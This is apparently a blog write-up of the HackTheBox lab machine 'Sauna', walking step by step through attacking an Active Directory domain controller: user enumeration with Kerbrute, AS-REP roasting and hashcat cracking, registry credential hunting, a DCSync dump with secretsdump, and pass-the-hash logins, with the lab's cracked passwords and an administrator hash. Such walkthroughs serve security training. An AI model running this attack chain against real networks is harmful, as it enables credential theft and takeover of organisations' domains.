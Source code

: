 ```yaml
---
layout: post
title: Sauna
date: 2025-06-22 00:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Active Directory, ASREPRoasting, Kerberos Attack, WinRM, WinPEAS, BloodHound, DCSync Attack, Impacket, psexec, Enumeration, Privilege Escalation, Hash Cracking, Post Exploitation]
author: klein
image:
  path: /images/images_sauna/image_13.png
  
---
```


As always let's start with enumeration. A quick Nmap scan reveals 13 open ports. Based on the presence of LDAP and Kerberos ports, this is likely to be a domain controller.

```bash
sudo nmap -sC -sV -vv -oN sauna 10.129.95.180
```

```bash
# Nmap 7.95 scan initiated Mon Jul  7 14:49:32 2025 as: /usr/lib/nmap/nmap -sC -sV -vv -oN sauna 10.129.95.180
Nmap scan report for 10.129.95.180
Host is up, received echo-reply ttl 127 (0.043s latency).
Scanned at 2025-07-07 14:49:33 EDT for 55s
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-08 01:49:45Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38495/tcp): CLEAN (Timeout)
|   Check 2 (port 37917/tcp): CLEAN (Timeout)
|   Check 3 (port 10224/udp): CLEAN (Timeout)
|   Check 4 (port 3195/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2025-07-08T01:49:52
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  7 14:50:28 2025 -- 1 IP address (1 host up) scanned in 55.69 seconds

```

Taking a look at the output of the nmap scan it will reveal the domain name. Let's add the domain name to the hosts file.
```bash
vim /etc/hosts
```

![b](/images/images_sauna/image_01.png)


Before going to port 80 my first choice would be to enumerate SMB. After trying nxc and smbmap and rpccielent I went straight for port 80 because there was nothing useful that could lead me further in my progress.

By clicking around on the page our goal will be to gather usernames. The 'About Us' section is perfect for creating a list for that.


![b](/images/images_sauna/image_02.png)

By copying the names to a file like this:
```
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb
```

We have to convert these to username formats that Windows generally uses. For this task, I used a tool named username-anarchy (https://github.com/urbanadventurer/username-anarchy)

```bash
ruby username-anarchy/username-anarchy --input-file users.txt > usernames.txt
```

Next, we are going to use a tool named Kerbrute, this tool does a Kerberos pre-authentication against Active Directory and helps to identify valid users. 

```bash
./kerbrute userenum --dc 10.129.95.180 -d EGOTISTICAL-BANK.LOCAL usernames.txt
```

To get better results I also added the user 'administrator' and 'guest' to the list.


![b](/images/images_sauna/image_03.png)


Next that we know about two users that exist we are going to use the GetNPUser.py which is going to help with AS-REP Roasting. As the description also says, it queries the target domain for users that do not require Kerberos authentication and exports their TGSs for cracking.

```bash
python3 GetNPUsers.py egotistical-bank.local/fsmith
```

![b](/images/images_sauna/image_04.png)


Let's copy this to a file and crack it with hashcat.

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

![b](/images/images_sauna/image_05.png)


Now let's spray this password and username around the network.

```bash
nxc smb 10.129.95.180 -u fsmith -p Thestrokes23
```

![b](/images/images_sauna/image_06.png)


```bash
nxc smb 10.129.95.180 -u fsmith -p Thestrokes23 --shares
```


![b](/images/images_sauna/image_07.png)


There are definitely interesting shares.

That 'Ricoh' is going to be later the way for privilege escalation. And we can use WinRM to get a shell on the box.

```bash
nxc winrm 10.129.95.180 -u fsmith -p Thestrokes23
```

![b](/images/images_sauna/image_08.png)


Let's use evil-winrm for the connection.

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

![b](/images/images_sauna/image_09.png)


For the privilege escalation part I ran WinPEAS and found the following:


![b](/images/images_sauna/image_10.png)


```
svc_loanmanager:Moneymakestheworldgoround!
```


This is the point where we need to run BloodHound.

Let's run it remotely:

```bash
bloodhound-python -c All -u fsmith -p Thestrokes23 -d egotistical-bank.local -ns 10.129.95.180 --zip
```

It turns out that with the previously found account, we can do a DCSync attack.

If we had not found the credentials we could have also checked the registry manually with the following command:


```bash
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

And let's do a DCSync attack, essentially this is impersonating a domain controller, and saying that in order to join domains we need to sync passwords, give me all the hashes.

```bash
secretsdump.py egotistical-bank.local/svc_loanmgr@10.129.95.180
```

![b](/images/images_sauna/image_11.png)


Now let's connect as the Administrator with psexec.py using the hash:

```bash
psexec.py egotistical-bank.local/administrator@10.129.95.180 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

An alternative method could have been evil-winrm:
```bash
evil-winrm -i 10.129.95.180 -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```

![b](/images/images_sauna/image_12.png)


